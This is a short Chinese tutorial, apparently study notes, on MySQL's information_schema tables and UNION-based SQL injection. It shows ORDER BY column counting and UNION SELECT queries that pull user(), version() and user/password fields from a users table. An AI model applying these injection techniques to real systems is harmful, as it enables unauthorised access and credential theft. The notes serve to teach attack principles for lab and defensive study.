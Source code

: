 ## mysql默认表相关知识

在 mysql5 版本以后，mysql 默认在数据库中存放在一个叫 `infomation_schema` 里面 这个库里面有很多表 重点是这三个表 `columns 、tables、SCHEMATA` 表字段 CHEMA_NAME 记录着库的信息



columns 存储该用户创建的所有数据库的库名、标名和字段名。

## union联合注入攻击原理

> 步骤一：联合两表
>
> 	1.union语句要求字段数一样才可以执行，所以我们要先进行字段判断
>
> 常见方法：
>
> ```mysql
> SELECT * FROM `users` WHERE user_id=1 order by 8
> ```
>
> 判断出字段数为8
>
> 然后通过
>
> ```mysql
> SELECT * FROM `users` WHERE user_id=1 union SELECT 1,2,3,4,5,6,7,8
> ```
>
> 进行联合查询

联合查询后面的语句

```mysql
SELECT * FROM guestbook WHERE `comment_id`=1 union SELECT 1,2,user()
```

select后面的数字可以替换成字段的名称或者函数

```mysql
-- 替换成mysql内置函数
SELECT * FROM guestbook WHERE `comment_id`=1 union SELECT user(),md5('a'),version()
```

```mysql 
-- 替换成mysql数据库里的字段
SELECT * FROM guestbook WHERE `comment_id`=1 union SELECT user_id,user,password from users
-- 也可以在语句后面加上limit限定显示的行数
SELECT * FROM guestbook WHERE `comment_id`=1 union SELECT user_id,user,password from users limit 1

SELECT * FROM guestbook WHERE `comment_id`=1 union SELECT user_id,user,password from users limit 0,2
```

```mysql
-- 如果不想要第一个表里的数据 可以把1换成-1 因为默认负数就表示不存在的
SELECT * FROM guestbook WHERE `comment_id`=-1 union SELECT user_id,user,password from users limit 1
```
